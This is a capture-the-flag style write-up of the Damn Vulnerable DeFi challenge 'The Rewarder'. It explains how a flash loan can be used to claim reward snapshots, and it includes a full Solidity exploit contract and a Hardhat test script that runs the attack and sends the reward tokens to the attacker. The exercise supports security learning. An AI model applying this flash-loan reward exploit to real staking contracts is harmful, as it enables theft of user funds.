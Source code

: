 ```yaml
---
layout: post
date:   2022-08-17 12:59:00 -0500
categories: DeFi flashloan
title: Damn Vulnerable DeFi - The Rewarder
---
```


## Analysis
Need to understand the relationship between the tokens and the pools. 

`FlashLoanerPool` allows flashloaning of the `DamnValuableToken` but to smart contracts not users
`AccountingToken` is pegged to the `DamnValuableToken`
`TheRewarderPool` rewards any depositor every 5 days proportional to their deposits. It accepts `DamnValuableToken`
`RewardToken` This is the token used to reward depositors.

## Problem
The flash loan tokens can be used to claim rewards

## Exploit

- ExploitTheRewarder.sol

```sol
// ExploitTheRewarder.sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/FlashLoanerPool.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/RewardToken.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";


contract ExploitTheRewarder {
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    FlashLoanerPool private immutable pool;
    DamnValuableToken private immutable dvt;
    TheRewarderPool private immutable rewarder;
    RewardToken private immutable rewardtoken;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress,
                address payable poolAddress,
                address payable rewarderAddress,
                address payable reward) {
        pool = FlashLoanerPool(poolAddress);
        dvt = DamnValuableToken(dvtAddress);
        rewarder = TheRewarderPool(rewarderAddress);
        rewardtoken = RewardToken(reward);
        owner = msg.sender;
    }

    function exploit() public payable {

        require(msg.sender == owner);

        // interact with the pool, calling the flashLoan will cause
        // the receiveFlashloan routine to be invoked
        pool.flashLoan(1000000 ether);

    }

    function receiveFlashLoan(uint256 amount) public payable {
        // make a deposit of the received funds to trigger receiving of rewards token
        dvt.approve(address(rewarder), amount);
        rewarder.deposit(amount);
        // withdraw the tokens from rewards
        rewarder.withdraw(amount);
        // and return it to the pool
        dvt.transfer(address(pool), amount);       
        uint256 reward_amount = rewardtoken.balanceOf(address(this));
        // transfer the received rewards to attacker EOA from attacker contract
        rewardtoken.transfer(owner, reward_amount);
    }
}
```

```js
...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const ExploitTheRewarderFactory = await ethers.getContractFactory("ExploitTheRewarder",
         attacker);
        const ExploitTheRewarder = await ExploitTheRewarderFactory.deploy(
            this.liquidityToken.address,
            this.flashLoanPool.address,
            this.rewarderPool.address,
            this.rewardToken.address);

        // wait 5 days so that contributing will trigger rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 day
        
        // connect to the exploit contract and trigger the exploit
        ExploitTheRewarder.connect(attacker).exploit();

    });
...
```

## Explanation
1. Borrow all the DVT tokens from the flashpool using a smartcontract owned by attacker
2. Deposit them and receive rewards to the attacker smartcontract
3. Since the objective of the task is to claim rewards for the attacker, transfer the received rewards from the attacker smart contract
4. Withdraw the deposited DVT tokens and return them to the flashpool.